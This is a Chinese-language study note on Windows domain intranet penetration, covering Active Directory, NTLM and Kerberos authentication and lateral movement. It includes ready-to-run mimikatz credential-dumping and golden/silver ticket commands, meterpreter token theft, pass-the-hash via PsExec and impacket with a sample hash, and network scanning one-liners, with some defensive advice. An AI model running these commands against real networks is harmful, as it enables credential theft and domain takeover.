




# 内网渗透

## 1. 域的相关基础知识

### 1.1 工作组

1. 工作组是最常用最简单最普遍的资源管理模式。简单是因为默认情况下计算机都是采用工作组方式进行资源管理的。默认情况下我们个人所使用的电脑大部分都处在名为  WORKGROUP 的工作组中，工作组资源管理模式适合于网络中计算机不多，对管理要求不严格的情况。它的建立步骤简单，使用起来也很好上手。大部分中小公司都采取工作组的方式对资源进行权限分配和目录共享。

### 1.2 域

1. 域(Domain)是 Windows 网络中独立运行的单位，用来描述一种架构，和“工作组”相对应，由工作组升级而来的高级架构。域是一种管理边界，用于一组计算机共享共用的**安全数据库**，域实际上就是一组服务器和工作站的集合。域之间相互访问则需要建立信任关系(即 Trust Relation)。信任关系是连接在域与域之间的桥梁。当一个域与其他域建立了信任关系后，2 个域之间不但可以按需要相互进行管理，还可以跨网分配文件和打印机等设备资源，使不同的域之间实现网络资源的共享与管理。
2. 域通常由在同一本地网络上的计算机组成。但是，连接到某个域的计算机可以通过 VPN 或 Internet 连接继续与域控制器通信。这使得企业和学校能够远程管理他们提供给员工和学生的笔记本电脑。
3. 当计算机连接到一个域时，它**不会使用自己的本地用户帐户**，用户帐户和密码都是在**域控制器上统一管理**。当您登录到该域中的计算机时，计算机将使用域控制器验证您的用户帐户名称和密码。这意味着您可以在任何连接到该域的计算机上使用相同的用户名和密码登录。

### 1.3 域的相关环境

1. 单域
    通常一个小公司就一个域，域内至少要两天域服务器，一台作为域控，一台当备份或者其他用途。活动目录 AD（Active Directory） 的数据库（包含）用户的账号信息等，所以一般都有一个备份服务器。
2. 父域和子域、域树、域森林
    把多个有联系的域看成树，父域就是根节点，子域就是非根节点。域树和域森林按照数据结构的关系类比。
3. 域名
    和我们常见的域名很像，也是 xxx.yyy 这种结构。

### 1.4 域名服务器 DNS

1. 是指用于实现域名和与之相对应的 IP 地址转换的服务器。这里的域名和 DNS 域名**非常相似**，但是因为域名的计算机是通过 DNS 来定位域控和其他计算机、网络服务的，所以一般域的名字就是 DNS 域的名字。
2. 一般域名服务器 DNS 和域控在同一网络中，所以先拿下 DNS 后再确定域控。

### 1.5 域的一些术语

1. Domain Controller 域控

2. Active Directory 活动目录，在域树内的所有域共享一个 AD，但这个 AD 内的数据分散地存储在各个域内，且每个域只存储该域内的数据。
    AD 的特性包括但不限于：账号、软件、环境等集中管理、统一部署杀毒软件和扫毒任务、利用群集和负载均衡技术进行容灾设定。其本身为 Microsoft 统一管理的基础平台，其他 ISA、SMS 等服务也依赖这个平台。

3. NTDS.dit 文件：数据存储的地方。每个域控制器上都有一个数据存储的副本。 AD DS 数据库（AD DS 数据库是所有域对象（例如用户帐户、计算机帐户和组）的**中心存储**）使用 Microsoft Jet 数据库技术，并将**目录信息存储在 Ntds.dit 文件**和关联的日志文件中。 这些文件默认存储在 C:\Windows\NTDS 文件夹中。

4. Ntdsutil.exe 是域控自带的域数据库管理工具。可以通过该工具提取出域中所有域用户信息，官方教程：

    > https://learn.microsoft.com/zh-cn/troubleshoot/windows-server/active-directory/use-ntdsutil-manage-ad-files

### 1.6 域的搭建

1. 网上教程很多。

### 1.7 初步的，常用的域内信息收集相关命令

1. 如下：

    ```cmd
    # 查看域的 DNS 信息和所在域，结果在“Windows IP 配置”中
    ipconfig /all
    # systeminfo 也能查看所在域，net time 也可以
    # 域名解析，也可以查询域控所在主机的 IP（一般域控上也会装 DNS）
    nslookup 域名
    # 查看当前登录域和域用户
    net config workstation
    # 查看域中的组
    net group /domain
    # 查看域中的成员列表
    net user /domain
    # 查看某个组中的成员列表
    net group "组名" /domain
    # 查看域控的主机
    nltest /dclist:域名
    # 查看登录凭证
    cmdkey /l
    # 当获得域控账号时，可以使用 dsquery 来进行查询
    # 查看域控所在的服务器相关信息
    dsquery server
    # 查询域中成员的计算机名等信息
    dsquery computer
    ```

2. 搜集某个具体主机的信息：

    ```cmd
    # 查询所有域名，使用 view 需要域控所在主机开启 Computer Browser，否则报 6118 错误
    net view /domain
    # 查询域内的主机信息
    net view /domain:域名
    ```

    需要注意的是，这里的域名不带后缀，以命令 `net view /domain` 的结果为主：
    
    接着使用工具进行收集：nbtscan

    ```bash
    # 工具地址 https://github.com/lifenjoiner/nbtscan
    # 发现网段内的主机
    nbtscan.exe -r 网段
    # 也可以使用原生命令来发现主机
    for /l %i in (1,1,255) do @ping 192.168.31.%i -w 1 -n 1 | find /i "ttl="
    # 扫描单个 IP 的多个端口（这里是端口 1 ~ 1024）
    1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("单个目标 IP",$_)) "Port $_ is open!"} 2>$null
    # 扫描单个端口的多个 IP 扫描（这里是 1 ~ 5）
    foreach ($ip in 1..5) {Test-NetConnection -Port 80 -InformationLevel "Detailed" 192.168.31.$ip}
    # 针对某个 IP 端的多个端口的扫描（这里是 20 个 IP，1024 个端口）
    1..20 | % { $a = $_; 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.$a",$_)) "Port $_ is open!"} 2>$null}
    ```

3. 如果想用其他工具扫描，例如 Nmap，就需要利用隧道。

## 2. Kerberos 相关内容

### 2.1 Windows 本地认证

#### 2.1.1 Windows 认证的账户密码

1. Windows 中，存储密码的文件是：
    `%SystemRoot%/system32/config/sam`
2. 最基本的认证就是拿用户输入的密码和这个文件中的内容进行比对

#### 2.1.2 NTLM（New Technology LAN Manager）Hash 介绍

1. 介绍，摘自微软官方：

    > NTLM 身份验证是 Windows Msv1_0.dll 中包括的一系列身份验证协议。 NTLM 身份验证协议包括 LAN Manager 版本 1 和 2 以及 NTLM 版本 1 和 2。 NTLM 身份验证协议根据一种证明是服务器或域控制器的挑战/响应机制对用户和计算机进行身份验证，用户要知道该服务器和域控制器的与帐户关联的密码。 在使用 NTLM 协议时，每当需要新的访问令牌时，资源服务器必须执行以下操作之一来验证计算机或用户的身份：
    >
    > - 如果计算机或用户的帐户是域帐户，请联系域控制器的部门域认证服务来获取该帐户的域。
    > - 如果该计算机或用户的帐户是本地帐户，请在本地帐户数据库中查找该帐户。

2. NTLM Hash 是支持 Net NTLM 认证协议以及本地认证过程中的一个重要参与物，其长度为 32 位，由数字和字母组成。

3. **Windows 本身不存储用户的明文密码**，它会将密码经过加密算法后存入 sam 文件。

4. 当用户登录时，**将用户输入的密码加密成 NTLM Hash**，与 sam 中的进行比对。NTML Hash 的前身时 LM Hash，目前已经被淘汰，但还是存在。

#### 2.1.3 NTLM Hash 的产生过程

1. 字符串 'admin' -> hex16 进制编码 -> Unicode -> MD4

#### 2.1.4 本地认证的流程

1. Windows Logon Process（即 winlogon.exe）是 Windows NT 用户登录程序，用于管理用户登录和退出。
2. LSASS 用于微软 Windows 系统的安全机制。它用于本地安全和登陆策略。
3. 登录的流程：
    

#### 2.1.5 LM Hash 的过程

1. 将所有的小写字母转大写
2. 转 16 进制，用 0 填充到 14 个字符/字节（也就是 28 位的 16 进制）
3. 分为两组，各 7 个字节（14 位的 16 进制）
4. 将每组化为二进制比特流，每组不足 56 bit 的在左边填 0
5. 再将比特流按照 7 bit 一组（7 位 2 进制一组），分出 8 组，末尾填 0。（总的应该为 16 组的 7 位 2 进制 bit 流）。
6. 再将这些比特流转换为 16 进制，使用 DES 加密，密钥为 `KGS!@#$%`（硬编码）。
7. 在这种加密情况下，如果密码不超过 7 位，那么第二大组的比特流必定都是 0，这时 DES 加密后的内容固定，为 `AA-D3-B4-35-B5-14-04-EE`。
8. 总的来看，加密过程很脆弱，而且还可以判断密码的位数与 7 的大小。

### 2.2 Windows 网络认证

#### 2.2.1 简介

1. 在内网环境中，经常遇到工作组环境，而工作组是一个逻辑上的网络环境（工作区），隶属于工作组的机器之间无法互相建立一个完美的信任机制，只能点对点，是比较落后的认证方式，没有**信托机构**。
2. 例如：假设 A 和 B 属于同一个工作组，A 想访问 B 上的资料，A 此时需要将一个存在于 B 主机上的账户凭证发给 B，经过认证才能访问 B 主机上的资源。
3. 这种情况下，最常见的服务就是 SMB 服务，开放在 445 端口。

#### 2.2.2 NTLM 协议

1. 早期 SMB 协议在网络上传输明文口令。后来出现 LAN Manager Challenge/Response 验证机制，简称 LM，它加密太简单导致容易被破解。
2. 后来微软提出 NTLM 挑战/响应验证机制。现在已经有了更新的 NTMLv2 和 Kerberos 验证体系。可以看 [1.2 中的介绍。](#1.2 NTLM（New Technology LAN Manager）Hash 介绍)

#### 2.2.3 Challenge/Response 挑战/响应机制

1. 第一步：协商，客户端主要向服务器确认协议的版本，v1 还是 v2。

2. 第二步：质询与验证

    1. 客户端向服务器发送用户信息（用户名）请求。
    2. 服务器接受到请求，生成一个 16  位的随机数，这个过程称之为 “Challenge”，使用登录用户名对应的 NTLM Hash 加密 Challenge（16 位随机字符），**生成 Challenge1**。同时，将 Challenge 发送给客户端。
        这个 Challenge1 实际上叫 Net NTLM Hash -= NTLM Hash(Challenge)。（存在内存中）
    3. 客户端接受到 Challenge 后，使用将要登录到账户对应的 HTLM Hash **加密 Challenge 生成 Response**，然后将 Response 发送至服务端。
    4. 服务端收到 Response 后，将其和 Challenge1 进行对比。如果相等则认证通过。

    注意点：

    1. Challenge 每次都不同。
    2. 整个过程中，服务端用到的 NTLM Hash 以及客户端生成 Response 时，用到了正确密码和用户输入的密码。

#### 2.2.4 NTLM v2 协议

1. 和 v1 的主要区别在于 Challenge 和加密算法的不同。共同点在于加密的 key -- NTLM Hash。
2. 不同点：
    1. Challenge -- v1 是 8 位，v2 是 16 位。
    2. Net-NTLM Hash：v1 的主要算法是 DES，v2 的主要算法是 HMAC-MD5。
3. **常用的一些工具**：Responder 伪造服务端捕获 Net-NTLM Hash，从而有可能破解出 NTML Hash。smbexec。

#### 2.2.5 Pass The Hash（Hash 传递）

1. 在内网渗透中，经常需要抓取管理员的密码或者 NTLM Hash。通过搜集这些信息有助于我们扩大战果，**尤其是在域渗透的环境下**。

2. Hash 传递，是指能够在**不需要账户明文密码的情况下完成认证的一个技术**。
    因此它解决了渗透中获取不到明文密码或破解不了 NTLM Hash 而又想扩大战果的问题。

3. **使用的必要条件**：

    1. 被认证的主机能访问到服务器（保证连通性）
    2. 被传递认证的用户名，比如我想传递**管理员**的 hash，那我就要知道管理员的用户名（因为不一定就是 admin）
    3. **被传递认证用户的 NTLM Hash**。

    可以看出，最终的作用就是在不知道密码的情况下，用客户端的 Challenge，使用获取到的 NTML Hash，构造出 Response。

4. 常用的工具：

    1. CrackMapExec
        
    2. Smbexec、Metasploit

#### 2.2.6 Active Directory（活动目录）介绍

1. Active Directory 存储了有关**网络对象**的信息，并且让管理员和用户能够轻松地查找和使用这些信息。Active Directory 使用了一种结构化的数据存储方式，并以此作为基础对目录信息进行合乎**逻辑的分层组织**。（像树）
2. 网络对象分为：用户、用户组、计算机、域、组织单位以及安全策略等。
3. 常见功能：
    1. 服务器以及客户端计算机管理：管理服务器以及客户端计算机账户，所有服务器以及客户端计算机加入域管理并实施组策略。
    2. 用户服务：管理用户域账户、用户信息、企业通讯录（与电子邮件系统集成）、用户组管理、用户身份认证、用户授权管理等，按省实施组管理策略。
    3. 资源管理：管理打印机、文件共享服务等网络资源
    4. 桌面配置：系统管理员可以集中的配置各种桌面配置策略，如：用户使用域中资源权限限制、界面功能的限制、应用程序执行特征限制、网络连接限制、安全配置限制等。
    5. 应用系统支撑：支持财务、人事、电子邮件、企业信息门户、办公自动化、补丁管理、防病毒系统等各种应用系统。
4. Active Directory 是一种管理服务，但是其没有认证功能，因此这时就需要用到 Kerberos。

#### 2.2.7 域认证体系 -- Kerberos

1. **Kerberos 是一种网络认证协议**，其设计目标就是通过**密钥系统**，为客户机/服务机应用程序提供强大的认证服务。改认证过程的实现不依赖于主机操作系统的认证，无需基于主机地址的信任，不要求网络上所有主机的物理安全，**并假定网络上传输的数据包可以被任意的读取、修改和插入数据**（即相比 NTLM，不怕中间人攻击）。在以上的情况下，Kerberos 作为一种可信任的第三方认证服务，是通过传统的密码技术（如：共享密钥）执行认证服务的。
2. Kerberos 即地狱三头看门犬，代表三个主体：Client、Server、KDC（Key Distribution Center）

#### 2.2.8 KDC/DC 以及粗略的认证流程

1. AD（Account Database）：存储所有 Client 的白名单，只有存在于白名单的 Client 才能**顺利申请到 TGT**（Ticket-granting Ticket））
2. AS（Authentication Service）：为 Client 生成 TGT 的服务。
3. TGS（Ticket Granting Service）：**为 Client 生成某个服务的 ticket**。
4. 示例图：
    
5. 从物理层面来看，AD 和 KDC 均为域控制器（Domain Controller）。
6. 域认证流程 -- 粗略
    1. Client 向 Kerberos 服务请求，希望获得访问 Server 的权限。Kerberos 得到了该信息，首先会判断 Client 是否是可信赖的（即是否处于白名单中，这就是 AS 的工作），通过在 AD 中存储的黑白名单来区分 Client。成功后，**AS 返回 TGT 给 Client。**
    2. Client 得到了 TGT 后，继续向 Kerberos 请求，希望获取访问 Server 的权限。Kerberos 再次获得请求后，通过 Client 消息中的 TGT，判断出 Client 拥有权限，然后 TGS 给了 Client 访问 Server 的权限 Ticket。
    3. Client 获得到 Ticket 后，可以访问 Server 了。这个 Ticket 只针对特定的那个 Server，其他的 Server 还需要向 TGS 申请。
7. 流程图：
    

#### 2.2.9 认证的详细流程

1. 第一步：
    
2. 第一步：
    
    注意：
    1. Client Hash 就是请求方的 NTLM-Hash。**Session Key 是随机生成的一串内容，用于接下来的加密与身份验证**。
    2. TGT 的内容是**使用特定用户 Krbtgt 的 NTLM-Hash**（也就是 KDC Hash） **加密的** Session-key(AS 生成的)、时间戳以及一些用户信息，这个用户信息就是 PAC，PAC 包含用户的 sid，用户所在的组。**客户端无法解密。**通俗来讲，TGT 就是门票。
3. 第二步：
    
    客户端用自己的 NTML-Hash 对上一步解密，获得到的 Session Key，然后用这个 Session Key **对时间戳和客户端的身份**信息进行加密。
    这时客户端再发起请求，将加密后的内容一同 TGT 发给 KDC。如果正常，KDC 再解密就能得到客户端所加密的信息和时间戳，然后同 TGT 内的内容进行对比。
    **这里的图有点问题，Ticket 外面应该没有 Server Hash。Ticket 应该用对称算法加密，密钥就是 Server Hash。**
    客户端拿到 TGS 返回的信息后，使用 Session Key 解密返回信息获得到 **Server Session Key**。除了拿到 Server Session Key，**还有一个被 Server Hash 加密的 Ticket**，这个 Ticket 客户端由于没有 Server Hash，因此无法解密。
4. Ticket 的组成：
    
5. 第三步：
    
    Server 用自己的 Server Hash（服务器端的 NTLM Hash) 去解密 Ticket，拿到 Server Session Key，从而解密 `Server Session Key(Client info + Timestamp)` 得出 Client Info 和 Timestamp，这些数据再和 Ticket 中的对应 Client Info 和 Timestamp 进行比对。

#### 2.2.10 白银票据

1. 特点：

    1. 不需要和 KDC 进行交互
    2. 需要目标服务器 Server 的 NTLM Hash

2. 当拥有 NTLM Hash 后，**其就能够伪造不经过 KDC 认证的 Ticket**（Server Session Key 可以完全自己伪造）。实际上，这时一切凭据只来源于 Server Hash。

3. 其伪造可以使用 Mimikatz 进行构造：
    `kerberos::list` -- 列出票据
    `kerberos::purge` -- 清除票据

4. 伪造的大概流程：

    1. 导出计算机名和其对应的 NTLM，以及 SID 等其他信息：
        `mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > log.txt`
    2. 伪造票据并加载到内存中：
        `mimikatz "kerberos::golden /domain:<域名> /sid:<域 SID> /target:<目标服务器主机名> /service:<服务类型> /rc4:<NTLM Hash> /user:<用户名> /ptt" exit`

5. 局限性：
    由于白银票据需要目标服务器的 NTLM Hash，所以无法生成对应域内所有服务器的票据，也不能通过 TGT 去申请。因此**只能针对服务器上的某些服务**去伪造，伪造的类型如下：

    | 服务注释                                   | 服务名            |
    | ------------------------------------------ | ----------------- |
    | WMI                                        | HOST、RPCSS       |
    | PowerShell Remoting                        | HOST、HTTP        |
    | WinRM                                      | HOST、HTTP        |
    | Scheduled Task                             | HOST              |
    | LDAP、**DCSync**（用于域同步的服务）       | LDAP              |
    | Windows File Share（CIFS）****             | **CIFS**          |
    | Windows Remote Server Administration Tools | RPCSS、LDAP、CIFS |

    如果拿到了域控的 NTLM Hash，那么通过 DCSync 和白银票据，将域内所有用户的账户信息导出。

6. 防御：

    1. 尽量保证服务器凭证不被截取
    2. 开始 PAC（Privilege Attribute Certificate）特权属性证书保护功能，PAC 主要是**规定服务器将票据 Ticket 发送给 Kerberos 服务，由 Kerberos 服务来验证票据是否有效。**
        开始方式：将注册表中的 HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Lsa/Kerberos/Parameters 中的 ValidateKdcPacSignature 设置为 1。
        PAC 的缺点在于，降低认证效率，增加 DC 负担。如果服务对外开放，那么很容易被攻击，那么白银票据也容易被拿到。最根本的还是要加固服务器本身。

#### 2.2.11 黄金票据

1. 特点：
    1. 需要与 KDC 通信
    2. [需要 krbtgt 用户的 NTLM Hash](#2.9 认证的详细流程)。
2. 当拥有 krbtgt 用户的 NTLM 的 Hash 后，就可以**伪造 TGT**（和白银票据一样，Session Key 可以伪造）。**本质上就是假冒 AS** （因为 AS 和 TGS 之间没有通知机制，导致 Session Key 可以伪造；毕竟 TGS 用的是 TGT 中的 Session Key，也就是伪造的 Session Key）
3. 在 meterpreter 中，使用：
    `golden_ticket_create -d payloads.online -k <krbtgt 的 NTLM Hash> -s <DC 的 SID> -u <票据的 username> -t <攻击机上存储票据的位子>`
    以生成黄金票据
4. 通过：
    `kerberos_ticket_use <黄金票据的路径>`
    以在 meterpreter 会话中使用黄金票据。
5. 相比白银票据，黄金票据不需要指定目标，域内所有目标都能使用，相当于拿到了域控。
6. 同样的，mimikatz 也可以生成黄金票据：
    `mimikatz "kerberos::golden /domain:<域名> /sid:<域 SID> /rc4:<KRBTGT NTLM Hash> /user:<任意用户名> /ptt" exit`
7. 总结：
    1. 黄金票据从攻击面来看，获取 krbtgt 用户的 NTLM Hash 后，可以在域中进行持久性的隐藏（因为可以在内存中），并且日志无法溯源，但是需要拿到 DC 的权限，使用黄金票据能够在一个域中长时间控制域。
    2. 从防御的角度来看，需要经常更新 krbtgt 的密码，才能使得原先的票据失效。最根本的办法就是**不允许域控账户登录其他服务器**。（否则会出现令牌假冒）

## 3 Windows Access Token

### 3.1 Windows Access Token 介绍

1. Windows Access Token 是一个描述进程或者线程安全上下文的一个对象。**不同的用户登录计算机后，都会生成一个 Access Token**，这个 Token 在用户创建进程或者线程时会被使用，不断的拷贝，这也就解释了 A 用户创建一个进程而该进程没有 B 用户的权限。
2. Access Token 分为两种：主令牌和模拟令牌：
    1. Delegation Token：授权令牌，其支持**交互式会话登录**（例如本地用户直接登录、远程桌面登录访问）。
    2. Impersonation Token：模拟令牌，其用于非交互的会话（例如使用 net use 访问共享文件夹）。
3. 一般情况下，用户双击运行一个程序，都会拷贝 “explorer.exe” 的 Access Token。
4. **当用户注销后，系统将会使主令牌切换到模拟令牌，不会将令牌清除，只有在重启机器后才会清除**。
5. 窃取令牌的作用在于，如果拿到了一台机器的 Administrator 权限，一般可以提升到 **SYSTEM 权限**。个人认为，如果该机器有域控/域成员的进程，那么可能可以获取**域内的权限**。

### 3.2 Windows Access Token 的组成

1. 用户账户的安全标识符 SID
2. 用户所属组的 SID
3. 用于标识当前登录会话的登录 SID
4. 用户或者用户组所拥有的权限列表
5. 所有者 SID
6. 主要组的 SID
7. 访问控制列表
8. 访问令牌的来源
9. 令牌时主要令牌还是模拟令牌
10. 限制 SID 的可选列表
11. 目前的模拟等级
12. 其他统计数据

### 3.3 SID（Security Identifier）安全标识符

1. 安全标识符是一个**唯一**的字符串，它可以代表一个账户、一个用户组、或者一次登录。通常它还有一个 SID 固定列表，例如 Everyone 这种已经内置的账户，默认拥有固定的 SID。
    详见：

    > https://learn.microsoft.com/zh-cn/windows/win32/secauthz/sid-strings

2. 表现形式：

    1. 域 SID - 用户 ID
    2. 计算机 SID - 用户 ID
    3. SID 列表都会存储在域控的 AD 或者计算机本地账户数据库中。

### 3.4 Access Token 的产生过程

1. 每个进程创建时都会根据登录会话权限，由 LSA（Local Security Authority）分配一个 Token（如果 CreateProcess 时自己指定了 Token，LSA 就会使用该 Token，否者就用父进程 Token 的拷贝）。

### 3.5 Access Token 令牌假冒（需要拿到 Administrator 权限）

1. 在 [2.3.1](#2.3.1 Windows Access Token 介绍) 中提到，只有重启机器后才会清除 Token，那么可以使用：

    1. Incognito（单独的 exe 或 msf 中）
    2. PowerShell - Invoke - TokenManipulation.ps1
    3. Cobalt Strike - steal_token

    等工具来获取系统上已经存在的**模拟令牌**。

### 3.6 Access Token 令牌假冒防御措施

1. 禁止 Domain Admins 登录对外且未作安全加固的服务器，因为一旦服务器被入侵，域管的令牌可能会被攻击者假冒，从而控制 DC。如果想清除假冒，重启服务器即可。

## 4. 横向渗透

### 4.1 [Access Token 的窃取（需要拿到 Administrator 权限）](#3.5 Access Token 令牌假冒（需要拿到 Administrator 权限）)

1. incognito.exe：

    > https://github.com/chroblert/JCTokenUtil

    这里用的是别人改写后的工具，作用应该差不多。
    作者的 readme 给出了使用教程：
    ` TokenUtils.exe 模块名 参数`
    列出令牌和用户名：`TokenUtils.exe ListTokens`
    切换其他用户：`TokenUtils.exe Execute -u "用户名" -e cmd`

2. msf 中的 incognito 模块：
    ```bash
    # 列出 AccessToken
    list_tokens -u
    # 查看当前 token
    getuid
    # 提升至system 权限
    getsystem 
    # 模拟 system 用户，getsystem 命令就是实现了该命令。如果要模拟其他用户，将 token 名改为其他用户即可。
    impersonate_token "NT AUTHORITY\SYSTEM"
    # ps 查看进程 id 后，可以从具体进程窃取 token
    steal_token 1252
    # 返回到之前的 AccessToken 权限
    rev2self 
    ```

### [4.2 PTH(Pass The Hash) Hash 传递](#2.2.5 Pass The Hash（Hash 传递）)

1. 这里的 Hash 就是上文中提到的 NTML Hash。
2. 微软也对 PTH 打过补丁，然而在打了补丁后，虽然**常规的 PTH** 已经无法成功，但唯独默认的 Administrator(SID 500) 账号例外，利用这个账号仍可以进行 PTH 远程 ipc 连接。
3. 如果禁用了 NTML 认证，PsExec 无法利用获得的 hash 进行远程连接，但是使
    用 mimikatz 还是可以攻击成功。从 windows 到 windows 的横向中，PTH 这一类攻击方法比较广泛。
4. 用 PTH 就是因为**原文可能难以破解**，但是 Hash **仍然**可以用于登录。

#### 4.2.1 mimikatz

1. 官方文档：

    > https://github.com/gentilkiwi/mimikatz/wiki

2. 命令格式大概是：`modulename::commandname arguments...`。

3. 起步 - 开启 debug 模式（需要 Administrator 权限）：
    ```bash
    privilege::debug
    ```

4. 获取 Hash 值（主要使用了 sekurlsa 模块，具体教程可以看官方文档）：
    ```bash
    # 需要 Administrator 权限并开启 debug 模式
    # 或者单纯的 SYSTEM 权限也行
    sekurlsa::logonpasswords
    ```
    

5. PTH
    官方文档给出了需要的参数，这里直接上例子：

    ```bash
    # privilege::debug 要开启，这是使用 sekurlsa 模块的必要条件
    sekurlsa::pth /user:administrator /domain:endlessshw /ntlm:3820869383098c3e7f59d92b3ae254b5
    ```
    
    官方文档下也给了一些备注：
    
    1. `sekurlsa::pth` 和 minidumps 相关命令不可以同时执行。
    2. `sekurlsa::pth` 需要高权限。而 PTT（Pass The Ticket）使用官方 API（意思可能是不需要开启 debug 模式）。
    3. 新版的 PTH 用 NTLM Hash 代替 Kerberos 的 RC4 密钥（和/或者代替 AES 密钥）。这样的话，Kerberos 的提供者（感觉应该是域控）可以拿到 TGT 票（应该就是黄金票据）。
    4. 在 XP/2003/Vista/2008 and before 7/2008r2/8/2012 `kb2871997` 这些系统之前，NTLM Hash 是必要的（AES 密钥可能没法用或者更改）。
    5. 仅在 8.1/2012r2 or 7/2008r2/8/2012 with `kb2871997` 这些版本下，可以替换 AES 密钥，此时 NTLM Hash 可以不用。
    
    拿到域控权限后，可以通过 IP 直接访问域控所在电脑的内容或远程登录：
    ```bash
    # 访问其他主机的 C 盘内容
    dir \\ip\c$
    ```
    
    
    
6. mimikatz 中复制粘贴有时会导致命令行崩溃，所以一般建议：
    ```bash
    # 在交互的 Shell 中
    mimikatz.exe "命令1" "命令2" ......
    # 导出结果，注意结尾要带个 "exit"，否则文件会无限大导致卡死
    mimikatz.exe "命令1" "命令2" ...... "exit" > "文件名"
    ```

#### 4.2.2 PsExec - 明文

1. 官方介绍：

    > https://learn.microsoft.com/zh-cn/sysinternals/downloads/psexecTelnet  
    > “Ps” 前缀与标准 UNIX 进程列表命令行工具名为“ps”有关。PsExec 是一种**轻量级 telnet 替代品**，可让你在其他系统上执行进程，并为控制台应用程序提供完整交互性，而无需手动安装客户端软件。 PsExec 最强大的用途包括在远程系统上启动交互式命令提示符，以及 IpConfig 等远程启用工具，否则无法显示有关远程系统的信息。
    > 注意：某些防病毒扫描程序报告一个或多个工具感染了“远程管理员”病毒。 PsTools 均不包含病毒，但它们已被病毒使用，这就是它们**触发病毒通知**的原因。
    >
    > 这篇文章介绍的很好：https://www.cnblogs.com/tomyyyyy/p/14667204.html

    根据官方的说法，可能其他的第三方防病毒软件会报毒。该工具包含在 PsTools 中。

2. 其底层原理来讲就是：

    1. 登陆远程主机
    2. 连接 admin$ 共享
    3. 写入 psexesvc.exe 文件到共享目录下，也就是远程主机的 c:\windows 下
    4. 利用 ipc 命名管道调用 svcctl 服务
    5. 利用 svcctl 服务**开启 psexesvc 服务**
    6. 生成 4 个命名管道以供使用

    参考：https://blog.csdn.net/ping_pig/article/details/121229030
    命名管道的通信基于 SMB，所以需要开放 445 端口。

3. 第一种通过明文：先有 IPC 连接，然后通过 PsExec 执行命令。
    ```cmd
    # 建立 IPC 连接
    net use \\192.168.31.2\ipc$ "password" /user:"username"
    # 调用 PsExec
    # -accepteula 第一次运行 PsExec 会弹出确认框，使用该参数就不会弹出确认框
    # -s 以 System 权限运行远程进程。
    # 该条命令获得一个对方主机 System 权限的 Shell
    PsExec.exe -accepteula -s \\192.168.31.2 cmd.exe
    # 当然也可以执行其他 cmd 命令
    PsExec.exe -accepteula -s \\192.168.31.2 ipconfig
    ```

4. 第二种通过明文：没有 IPC 连接下，直接输入账号密码：
    ```cmd
    PsExec.exe -accepteula -s \\192.168.31.2 -u username -p password cmd.exe
    ```

5. 第一种 PTH 通过 Hash 登录：现有 IPC 连接。
    ```cmd
    # 自己试了一下，要么拒绝访问，要么系统找不到指定文件
    # LM Hash:NT Hash
    psexec -hashes aad3b435b51404eeaad3b435b51404ee:3820869383098c3e7f59d92b3ae254b5 endlessshw/Administrator@192.168.31.2
    ```
    
    如果不行，可以使用 Python 的包：
    
    > https://github.com/fortra/impacket
    
    ```python
    # 注意冒号
    python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:3820869383098c3e7f59d92b3ae254b5 ./Administrator@192.168.31.2
    ```
    
    
    
6. 使用 PsExec 需要注意的点：

    1. 需要远程系统开启 admin$ 共享（默认开启）
        
    2. 因为 PsExec 连接的原理是基于 IPC 共享，因此目标需要开放 445 端口：
        
